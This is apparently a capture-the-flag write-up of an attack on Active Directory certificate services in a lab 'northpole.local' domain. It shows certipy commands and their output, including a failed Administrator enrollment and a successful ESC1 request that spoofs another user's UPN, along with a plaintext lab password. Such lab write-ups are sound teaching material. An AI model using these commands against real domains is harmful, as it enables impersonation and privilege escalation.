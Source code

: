 Certificate authority info

```
CA Name : northpole-npdc01-CA
DNS Name : npdc01.northpole.local
```

12 certificate templates are active. These three look promising:

`Administrator`, `User`, `NorthPoleUsers`.

Can we get an admin user or should we just get one for `wombleycube` because
none of the users are admin.

Next we must request a certificate for the `wombleycube` user like this:

```
$ certipy req -username john@corp.local -password Passw0rd -ca corp-DC-CA -target ca.corp.local -template User
Certipy v4.0.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 773
[*] Got certificate with UPN 'JOHN@corp.local'
[*] Certificate object SID is 'S-1-5-21-980154951-4172460254-2779440654-1103'
[*] Saved certificate and private key to 'john.pfx'
```

I got an error because I awas passing `npdc01.northpole.local` to target, I
should have used the actual IP.

We cannot enroll as admin

```
$ certipy req -username elfy@northpole.local -password 'J4`ufC49/J4766'
    -ca northpole-npdc01-CA -target 10.0.0.53 -template Administrator
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[!] Failed to resolve: NORTHPOLE.LOCAL
[*] Requesting certificate via RPC
[-] Got error while trying to request certificate: code: 0x80094012 -
    CERTSRV_E_TEMPLATE_DENIED - The permissions on the certificate template
    do not allow the current user to enroll for this type of certificate.
[*] Request ID is 32
Would you like to save the private key? (y/N) y
[*] Saved private key to 32.key
[-] Failed to request certificate
```

And we cannot do this either https://github.com/ly4k/Certipy#esc7.

Let's start with ESC1: https://github.com/ly4k/Certipy#esc1

```
certipy req -username elfy@northpole.local -password 'J4`ufC49/J4766' \
    -ca northpole-npdc01-CA -target 10.0.0.53 -template NorthPoleUsers \
    -upn wombleycube@northpole.local -dns npdc01.northpole.local

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[!] Failed to resolve: NORTHPOLE.LOCAL
[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 36
[*] Got certificate with multiple identifications
    UPN: 'wombleycube@northpole.local'
    DNS Host Name: 'npdc01.northpole.local'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'wombleycube_npdc01.pfx'
```

[c-c]: https://developer.chrome.com/docs/devtools/application/cookies
[comb]: https://www.youtube.com/watch?v=27rE5ZvWLU0
[linux-lpe]: https://payatu.com/blog/a-guide-to-linux-privilege-escalation/
[lug]: https://www.youtube.com/watch?v=ycM1hBSEyog
[cld]: https://www.cloudflare.com/learning/email-security/dmarc-dkim-spf/
[kusto]: https://detective.kusto.io/sans2023
[clus]: https://dataexplorer.azure.com/freecluster